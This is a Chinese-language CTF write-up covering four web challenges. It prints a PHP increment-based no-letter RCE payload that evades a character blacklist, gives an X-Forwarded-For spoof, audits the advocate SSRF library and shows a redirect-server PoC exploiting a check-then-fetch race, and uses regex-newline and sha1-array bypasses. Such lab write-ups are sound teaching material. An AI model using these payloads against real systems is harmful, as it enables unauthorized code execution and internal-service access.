









[NSSCTF] WP 5
===

## [HNCTF 2022 Week1] Challenge__rce

### 题解

访问网站发现源码有个 hint 注释, 尝试 GET 传个 `hint` 进去, 出现 WAF 源码:

```php
<?php
error_reporting(0);
if (isset($_GET['hint'])) {
    highlight_file(__FILE__);
}
if (isset($_POST['rce'])) {
    $rce = $_POST['rce'];
    if (strlen($rce) <= 120) {
        if (is_string($rce)) {
            if (!preg_match("/[!@#%^&*:'\-<?>\"\/|`a-zA-Z~\\\\]/", $rce)) {
                eval($rce);
            } else {
                echo("Are you hack me?");
            }
        } else {
            echo "I want string!";
        }
    } else {
        echo "too long!";
    }
} 
```

看起来显然是一个无字符 RCE, 注意这段过滤中没有 `%`, `[]`, `+`, 考虑自增马, 注意有长度限制, 利用可以用数字, 稍微简化一下:

构造过程, 注意 php 中不能直接像 c 一样直接对 char 做加法, 但是可以做自增 `++` :

```php
<?php

$_=[].'_'; # 注意, 空数组拼字符串会触发 __toString 使得原变量变为字符串 'Array'
$__=$_[1]; # $__ = 'r'
$_ = $_[0];
$_++;
$_++;
$_1=$_; # $_1 = 'A' + 2 = 'C'
$_++;
$_++;
$_++;
$_++;
$_++;
$_2=$_; # $_2 = 'A' + 7 = 'H'

# 注意, php 中函数名不区分大小写
$_3=$_1.$_2.$__; # $_3 = 'C' . 'H' . 'r' = 'CHr'
$_='_'.$_3(71).$_3(69).$_3(84); # $_='_GET'
# $$_[1]($$_[2]);
# 这一段代码等于把执行点转移到了 GET 中, 其中 1 为函数名, 2 为参数
echo $_;
?>
```

去掉注释, 注意这里**引号可以直接去掉**, 这也算个坑, 顺便调整长度, 这里限制了必须传字符串, 不能用 `[]` 的方式直接绕, 那么用 `++var` 的方式即可:

```
$_=[]._;$__=$_[1];$_=$_[0];$_++;$_0=++$_;$_++;$_++;$_++;$_++;$_=$_0.++$_.$__;$_=_.$_(71).$_(69).$_(84);$$_[1]($$_[2]);
```

编码:

```
%24%5F%3D%5B%5D%2E%5F%3B%24%5F%5F%3D%24%5F%5B1%5D%3B%24%5F%3D%24%5F%5B0%5D%3B%24%5F%2B%2B%3B%24%5F0%3D%2B%2B%24%5F%3B%24%5F%2B%2B%3B%24%5F%2B%2B%3B%24%5F%2B%2B%3B%24%5F%2B%2B%3B%24%5F%3D%24%5F0%2E%2B%2B%24%5F%2E%24%5F%5F%3B%24%5F%3D%5F%2E%24%5F%2871%29%2E%24%5F%2869%29%2E%24%5F%2884%29%3B%24%24%5F%5B1%5D%28%24%24%5F%5B2%5D%29%3B
```



执行成功;



## [HNCTF 2022 Week1] Interesting_http

### 题解

首先访问提示需要 POST, 改包:



提示不是管理员, 注意看 cookie:





加上:

```
X-Forwarded-For:127.0.0.1
```



## [SEETF 2022] Super Secure Requests Forwarder

> 题目描述: Hide your IP address and take back control of your privacy! Visit websites through our super secure proxy.

### 网站源码

网站是一处使用网站服务器作为代理访问互联网的工具, 给了一个 url 输入栏, 这里首先肯定想到经典的 ping RCE, 可惜管道符似乎被杀了;

到这里没有头绪了, 试了一下其他方法, 猜测此处应该要 SSRF, 看了眼 WP, 题目是有个源码附件的, ~靶场没给~ (汗):

```python
from flask import Flask, request, render_template
import os
import advocate
import requests

app = Flask(__name__)


@app.route('/', methods=['GET', 'POST'])
def index():

    if request.method == 'POST':
        url = request.form['url']

        # Prevent SSRF
        try:
            advocate.get(url)

        except:
            return render_template('index.html', error=f"The URL you entered is dangerous and not allowed.")

        r = requests.get(url)
        return render_template('index.html', result=r.text)

    return render_template('index.html')


@app.route('/flag')
def flag():
    if request.remote_addr == '127.0.0.1':
        return render_template('flag.html', FLAG=os.environ.get("FLAG"))

    else:
        return render_template('forbidden.html'), 403


if __name__ == '__main__':
    app.run(host="0.0.0.0", port=80, threaded=True)
```

找一下这个防止 SSRF 的包: 简述原理, **通过在发起连接前对目标做“地址/主机名验证 + 解析后 IP 检查 + 每次重定向/连接都再检验”来阻断常见的 SSRF 绕过手法**, 这个包有很多经典的绕过方案, 并且已经归档不再维护;

### SSRF: Advocate 源码审计

那这里就审计一下 advocate 这个包的源码好了:

#### Adapter

```python
class Session(RequestsSession):
    __attrs__ = RequestsSession.__attrs__ + ["validator"]
    DEFAULT_VALIDATOR = None

    """Convenience wrapper around `requests.Session` set up for `advocate`ing"""
    def __init__(self, *args, **kwargs):
        self.validator = kwargs.pop("validator", self.DEFAULT_VALIDATOR)
        adapter_kwargs = kwargs.pop("_adapter_kwargs", {})

        # `Session.__init__()` calls `mount()` internally, so we need to allow
        # it temporarily
        self.__mountAllowed = True
        RequestsSession.__init__(self, *args, **kwargs)

        # Drop any existing adapters
        self.adapters = OrderedDict()

        self.mount("http://", ValidatingHTTPAdapter(validator=self.validator, **adapter_kwargs))
        self.mount("https://", ValidatingHTTPAdapter(validator=self.validator, **adapter_kwargs))
        self.__mountAllowed = False

    def mount(self, *args, **kwargs):
        """Wrapper around `mount()` to prevent a protection bypass"""
        if self.__mountAllowed:
            super(Session, self).mount(*args, **kwargs)
        else:
            raise MountDisabledException(
                "mount() is disabled to prevent protection bypasses"
            )
```

这段代码的逻辑是定义了一个检查 URL 规范的检查器, 它会强制所有的协议走一个 `Adapter`, 后面马上跟了两句, 给 `http://` 和 `http://` 挂载了 `Adapter`, 其余的语句会因为没有对应的 `Adapter` 而报错; 并且在 session 创建初始化后**立刻**关闭, 这样即使用户拿到了 session 也不能额外挂载 `Adapter` 来绕;

此外, 源码中的 api.py 只是个壳, 负责动态注入, 其真正逻辑在其他文件中

#### 核心逻辑

```python
import functools
import fnmatch
import re
import six

import netifaces

from .exceptions import NameserverException
from .packages import ipaddress


def canonicalize_hostname(hostname):
    """Lowercase and punycodify a hostname"""
    # We do the lowercasing after IDNA encoding because we only want to
    # lowercase the *ASCII* chars.
    # TODO: The differences between IDNA2003 and IDNA2008 might be relevant
    # to us, but both specs are damn confusing.
    return six.text_type(hostname.encode("idna").lower(), 'utf-8')


def determine_local_addresses():
    """Get all IPs that refer to this machine according to netifaces"""
    ips = []
    for interface in netifaces.interfaces():
        if_families = netifaces.ifaddresses(interface)
        for family_kind in {netifaces.AF_INET, netifaces.AF_INET6}:
            addrs = if_families.get(family_kind, [])
            for addr in (x.get("addr", "") for x in addrs):
                if family_kind == netifaces.AF_INET6:
                    # We can't do anything sensible with the scope here
                    addr = addr.split("%")[0]
                ips.append(ipaddress.ip_network(addr))
    return ips


def add_local_address_arg(func):
    """Add the "_local_addresses" kwarg if it's missing

    IMO this information shouldn't be cached between calls (what if one of the
    adapters got a new IP at runtime?,) and we don't want each function to
    recalculate it. Just recalculate it if the caller didn't provide it for us.
    """
    @functools.wraps(func)
    def wrapper(self, *args, **kwargs):
        if "_local_addresses" not in kwargs:
            if self.autodetect_local_addresses:
                kwargs["_local_addresses"] = determine_local_addresses()
            else:
                kwargs["_local_addresses"] = []
        return func(self, *args, **kwargs)
    return wrapper


class AddrValidator(object):
    _6TO4_RELAY_NET = ipaddress.ip_network("192.88.99.0/24")
    # Just the well known prefix, DNS64 servers can set their own
    # prefix, but in practice most probably don't.
    _DNS64_WK_PREFIX = ipaddress.ip_network("64:ff9b::/96")
    DEFAULT_PORT_WHITELIST = {80, 8080, 443, 8443, 8000}

    def __init__(
            self,
            ip_blacklist=None,
            ip_whitelist=None,
            port_whitelist=None,
            port_blacklist=None,
            hostname_blacklist=None,
            allow_ipv6=False,
            allow_teredo=False,
            allow_6to4=False,
            allow_dns64=False,
            autodetect_local_addresses=True,
    ):
        if not port_blacklist and not port_whitelist:
            # An assortment of common HTTPS? ports.
            port_whitelist = self.DEFAULT_PORT_WHITELIST.copy()
        self.ip_blacklist = ip_blacklist or set()
        self.ip_whitelist = ip_whitelist or set()
        self.port_blacklist = port_blacklist or set()
        self.port_whitelist = port_whitelist or set()
        # TODO: ATM this can contain either regexes or globs that are converted
        # to regexes upon every check. Create a collection that automagically
        # converts them to regexes on insert?
        self.hostname_blacklist = hostname_blacklist or set()
        self.allow_ipv6 = allow_ipv6
        self.allow_teredo = allow_teredo
        self.allow_6to4 = allow_6to4
        self.allow_dns64 = allow_dns64
        self.autodetect_local_addresses = autodetect_local_addresses

    @add_local_address_arg
    def is_ip_allowed(self, addr_ip, _local_addresses=None):
        if not isinstance(addr_ip,
                          (ipaddress.IPv4Address, ipaddress.IPv6Address)):
            addr_ip = ipaddress.ip_address(addr_ip)

        # The whitelist should take precedence over the blacklist so we can
        # punch holes in blacklisted ranges
        if any(addr_ip in net for net in self.ip_whitelist):
            return True

        if any(addr_ip in net for net in self.ip_blacklist):
            return False

        if any(addr_ip in net for net in _local_addresses):
            return False

        if addr_ip.version == 4:
            if not addr_ip.is_private:
                # IPs for carrier-grade NAT. Seems weird that it doesn't set
                # `is_private`, but we need to check `not is_global`
                if not ipaddress.ip_network(addr_ip).is_global:
                    return False
        elif addr_ip.version == 6:
            # You'd better have a good reason for enabling IPv6
            # because Advocate's techniques don't work well without NAT.
            if not self.allow_ipv6:
                return False

            # v6 addresses can also map to IPv4 addresses! Tricky!
            v4_nested = []
            if addr_ip.ipv4_mapped:
                v4_nested.append(addr_ip.ipv4_mapped)
            # WTF IPv6? Why you gotta have a billion tunneling mechanisms?
            # XXX: Do we even really care about these? If we're tunneling
            # through public servers we shouldn't be able to access
            # addresses on our private network, right?
            if addr_ip.sixtofour:
                if not self.allow_6to4:
                    return False
                v4_nested.append(addr_ip.sixtofour)
            if addr_ip.teredo:
                if not self.allow_teredo:
                    return False
                # Check both the client *and* server IPs
                v4_nested.extend(addr_ip.teredo)
            if addr_ip in self._DNS64_WK_PREFIX:
                if not self.allow_dns64:
                    return False
                # When using the well-known prefix the last 4 bytes
                # are the IPv4 addr
                v4_nested.append(ipaddress.ip_address(addr_ip.packed[-4:]))

            if not all(self.is_ip_allowed(addr_v4) for addr_v4 in v4_nested):
                return False

            # fec0::*, apparently deprecated?
            if addr_ip.is_site_local:
                return False
        else:
            raise ValueError("Unsupported IP version(?): %r" % addr_ip)

        # 169.254.XXX.XXX, AWS uses these for autoconfiguration
        if addr_ip.is_link_local:
            return False
        # 127.0.0.1, ::1, etc.
        if addr_ip.is_loopback:
            return False
        if addr_ip.is_multicast:
            return False
        # 192.168.XXX.XXX, 10.XXX.XXX.XXX
        if addr_ip.is_private:
            return False
        # 255.255.255.255, ::ffff:XXXX:XXXX (v6->v4) mapping
        if addr_ip.is_reserved:
            return False
        # There's no reason to connect directly to a 6to4 relay
        if addr_ip in self._6TO4_RELAY_NET:
            return False
        # 0.0.0.0
        if addr_ip.is_unspecified:
            return False

        # It doesn't look bad, so... it's must be ok!
        return True

    def _hostname_matches_pattern(self, hostname, pattern):
        # If they specified a string, just assume they only want basic globbing.
        # This stops people from not realizing they're dealing in REs and
        # not escaping their periods unless they specifically pass in an RE.
        # This has the added benefit of letting us sanely handle globbed
        # IDNs by default.
        if isinstance(pattern, six.string_types):
            # convert the glob to a punycode glob, then a regex
            pattern = fnmatch.translate(canonicalize_hostname(pattern))

        hostname = canonicalize_hostname(hostname)
        # Down the line the hostname may get treated as a null-terminated string
        # (as with `socket.getaddrinfo`.) Try to account for that.
        #
        #    >>> socket.getaddrinfo("example.com\x00aaaa", 80)
        #    [(2, 1, 6, '', ('93.184.216.34', 80)), [...]
        no_null_hostname = hostname.split("\x00")[0]

        return any(re.match(pattern, x.strip(".")) for x
                   in (no_null_hostname, hostname))

    def is_hostname_allowed(self, hostname):
        # Sometimes (like with "external" services that your IP has privileged
        # access to) you might not always know the IP range to blacklist access
        # to, or the `A` record might change without you noticing.
        # For e.x.: `foocorp.external.org`.
        #
        # Another option is doing something like:
        #
        #     for addrinfo in socket.getaddrinfo("foocorp.external.org", 80):
        #         global_validator.ip_blacklist.add(ip_address(addrinfo[4][0]))
        #
        # but that's not always a good idea if they're behind a third-party lb.
        for pattern in self.hostname_blacklist:
            if self._hostname_matches_pattern(hostname, pattern):
                return False
        return True

    @add_local_address_arg
    def is_addrinfo_allowed(self, addrinfo, _local_addresses=None):
        assert(len(addrinfo) == 5)
        # XXX: Do we care about any of the other elements? Guessing not.
        family, socktype, proto, canonname, sockaddr = addrinfo

        # The 4th elem inaddrinfo may either be a touple of two or four items,
        # depending on whether we're dealing with IPv4 or v6
        if len(sockaddr) == 2:
            # v4
            ip, port = sockaddr
        elif len(sockaddr) == 4:
            # v6
            # XXX: what *are* `flow_info` and `scope_id`? Anything useful?
            # Seems like we can figure out all we need about the scope from
            # the `is_<x>` properties.
            ip, port, flow_info, scope_id = sockaddr
        else:
            raise ValueError("Unexpected addrinfo format %r" % sockaddr)

        # Probably won't help protect against SSRF, but might prevent our being
        # used to attack others' non-HTTP services. See
        # http://www.remote.org/jochen/sec/hfpa/
        if self.port_whitelist and port not in self.port_whitelist:
            return False
        if port in self.port_blacklist:
            return False

        if self.hostname_blacklist:
            if not canonname:
                raise NameserverException(
                    "addrinfo must contain the canon name to do blacklisting "
                    "based on hostname. Make sure you use the "
                    "`socket.AI_CANONNAME` flag, and that each record contains "
                    "the canon name. Your DNS server might also be garbage."
                )

            if not self.is_hostname_allowed(canonname):
                return False

        return self.is_ip_allowed(ip, _local_addresses=_local_addresses)
```

分块总结:

概括的来说,

- `canonicalize_hostname`: 主机名标准化, 统一大小写, 并做 IDNA 转换 (例如中文域名的支持);

- `determine_local_addresses`: 获取本机的 IPv4 / IPv6 地址;

- `add_local_address_arg`: 一个装饰器, 用于自动注入 `_local_addresses` 参数

- `AddrValidator`: 核心类, 封装所有判断逻辑;

##### is_ip_allowed()

这是最核心的逻辑, 首先转类型, 然后遵循白名单优先放行, 黑名单拒绝的原则; 对 ipv4/ipv6 有特殊过滤:

- 禁止 link-local (169.254.x.x): 当接口**没有获得 DHCP** 等地址时自动分配的本地链路地址; 只在同一链路 (**L2** 域) 有效, **不被路由器转发**; 在**云或容器**环境中可能绑定到链路本地地址;

- 禁止 loopback (127.0.0.1): 无需多言, 这个地址是操作系统环回接口处理, **不走物理网络**;

- 禁止 multicast (224.x.x.x): **多播地址**, ipv6 **组播**用于将流量发送到多个订阅者; 多播不是点对点 TCP 服务, HTTP 服务下的多播地址无意义, 但库/代理可能把多播映射到某些本地解析或行为, 攻击者可以利用并**反射放大**;

- 禁止 private (192.168.x.x、10.x.x.x): 典型的**内网地址**, 如果内部网络服务的地址发生了泄露, 则 SSRF 能伪造身份, 绕过边界访问这些服务;

- 禁止 reserved (255.255.255.255), 禁止 unspecified (0.0.0.0): 广播或未指定地址, 可能导致奇怪行为、反射、或协议异常, 并且某些中间件可能当做特殊地址处理;

- 禁止 6to4 relay: 6to4 是一种把 IPv6 封装到 IPv4 公网的方式, 这个块保留用于 IPv6 的 6to4 转换中继 **(历史遗留问题)** , 通常不必要且潜在危险;

- 禁止 DNS64 / IPv4-mapped: 一句话归纳, DNS64 是把 IPv4 地址映射到 IPv6 前缀的一种机制; 如果你仅屏蔽 127.0.0.1 文本但不归一化 IPv6 映射, `::ffff:127.0.0.1` 可能绕过检查;

### 逻辑漏洞

审计了一下 advocate 这个库, 貌似没有能一眼看到的利用, 那么回到网页源码:

```python
try:
    advocate.get(url)
    except:
        return render_template('index.html', error=f"The URL you entered is dangerous and not allowed.")

    r = requests.get(url)
    return render_template('index.html', result=r.text)
```

这个合法检查是一次性的, 然后用普通的 `requests.get(url)` 获取实际内容, 验证和实际使用是两次独立的 HTTP 请求, 中间存在时间差, 因此有 TOCTOU 漏洞;

#### PoC

用重定向即可;

```python
from flask import Flask, redirect 
app = Flask(__name__) i = 0 
@app.route('/') 
def index(): 
    global i 
    if i == 0: 
        i += 1 
        return 'Nothing to see here' 
    else: 
        return redirect('http://localhost/flag') 
if __name__ == '__main__': 
    app.run()
```

虽然没有独立做出这道题, 但是审计源码也挺有收获。

## [鹤城杯 2021]Middle magic

### 题解

依旧开门源码:

```php
<?php
highlight_file(__FILE__);
include "./flag.php";
include "./result.php";
if(isset($_GET['aaa']) && strlen($_GET['aaa']) < 20){

    $aaa = preg_replace('/^(.*)level(.*)$/', '${1}<!-- filtered -->${2}', $_GET['aaa']);
    // 这里的 ${1} 和 ${2} 就是 level 前后的 (.*) 贪婪匹配到的内容, 所以这里的含义其实是把 <!-- filtered --> 插到原内容中间

    if(preg_match('/pass_the_level_1#/', $aaa)){
        echo "here is level 2";
        ...
?> 
```

先看 level 1, 这里有两个模式匹配, 注意前后都是贪婪匹配, 并且只有一次正则替换, 那么能想到双写 payload 或者用**换行符**去绕过 `(.*)`:

```
(GET)
?aaa=%0apass_the_level_1%23
```



接下来看 level 2:

```php
if (isset($_POST['admin']) and isset($_POST['root_pwd'])) {
            if ($_POST['admin'] == $_POST['root_pwd'])
                echo '<p>The level 2 can not pass!</p>';
        // START FORM PROCESSING    
            else if (sha1($_POST['admin']) === sha1($_POST['root_pwd'])){
                echo "here is level 3,do you kown how to overcome it?"; 
                ...
            }
}
```

经典的两变量不等, 但是哈希强相等, 可以传两个不同的数组进去来通过第一个检测, 又因为 sha1 函数对数组输入会返回警告值 false, `false = false` 会绕过第二层:

```
(POST)
admin[]=1&root_pwd[]=2
```



最后是第三层, 第三层里提到了一个变量 `$result`, 尝试随便传一个直接通过了, 看了下 wp 其他师傅也是这个情况, 不清楚是不是环境自己的问题, 不管怎么样, 直接出 flag 了;



<br>
